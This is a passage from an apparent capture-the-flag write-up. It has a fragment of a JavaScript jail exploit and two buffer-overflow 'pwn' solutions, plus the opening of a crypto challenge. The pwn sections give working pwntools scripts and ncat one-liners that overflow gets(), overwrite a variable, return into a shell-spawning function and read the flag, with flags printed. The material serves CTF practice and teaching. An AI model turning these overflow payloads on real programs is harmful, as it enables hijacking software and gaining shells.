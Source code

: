 );
exploit : [...{[Symbol.iterator]:func}]

flag : shellmates{y0U_d0N'7_P4r3n7H3515_70_c4Ll_M3}

PWN
B0F0
Author : 1m4D

In this challenge we have a binary file and it's source code, when we read the .c file we can see the gets which do a bufferoverflow, the goal in this challenge is to change the date to 2752022 by using the buffer overflow. so i just coded the number in hex and add it after the bufferoverflow offset.
from pwn import *

payload = 'a' * 128 + "\x16\xfe\x29\x00"

print(payload)

p = process('./challenge')

sep = " \n "

p.sendline(payload)
output = p.recvall()
print(output)
exploit : printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x16\xfe\x29\x00" | ncat -v --ssl bof0.challs.shellmates.club 443

flag : shellamtes{Y0u_H4vE_ChE4ngED_mY_V4R14Ble_98765}

B0F0
Author : 1m4D

In this challenge we have a binary file and it's source code, when we read the .c file we can see the gets which do a bufferoverflow, the goal in this challenge is to ret addr to the open_shell function wich has the addr 0x080491b6 and pass the parameter (int)1337.
from pwn import *

#080491b6
payload = 'a' * 32 + "\xb6\x91\x04\x08" + "aaaa" + "\x39\x05\x00\x00"

print(payload)

p = process('./challenge')

sep = " \n "

p.sendline(payload)
output = p.recvall()
print(output)
exploit : printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xb6\x91\x04\x08aaaa\x39\x05\x00\x00\ncat flag" | ncat -v --ssl bof1.challs.shellmates.club 443

flag : shellamtes{Y0u_4lS0_GET_A_$HEll_65431}

Crypto
Steam Locomotive
I wrote a message, but a train ran over it and messed it up, can you recover it? Do you know what the sl command do?
Author : badsUwU
